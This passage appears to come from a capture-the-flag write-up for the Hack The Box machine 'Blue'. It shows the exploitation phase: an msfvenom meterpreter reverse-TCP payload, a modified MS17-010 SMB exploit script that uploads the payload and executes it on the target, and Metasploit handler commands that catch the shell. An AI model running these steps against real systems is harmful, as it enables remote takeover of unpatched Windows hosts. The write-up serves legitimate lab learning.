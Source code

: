 \newpage
## Phase #2: Exploitation
1\. We now need to create a binary payload file. For this exploit, we will use `meterpreter` as the payload and then use `multi/handler` to catch the incoming shell connection. We then slightly tweak the exploit file to first copy the binary payload on to the target system and execute it:  
``` {.python .numberLines}
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=443 -f exe >mtrptr.exe
subl zzz_exploit.py
  def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
    + smb_send_file(smbConn, '/root/toolbox/writeups/htb.blue/mtrptr.exe', 'C', '/mtrptr.exe')
    + service_exec(conn, r'cmd /c c:\\mtrptr.exe')
msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.14.18
  set lport 443
  set ExitOnSession false
  exploit -j
python zzz_exploit.py 10.10.10.40 netlogon
msfconsole
  sessions -i 1
  getuid

```

![writeup.exploitation.steps.1.1](./screenshot04.png)  

![writeup.exploitation.steps.1.2](./screenshot05.png)  
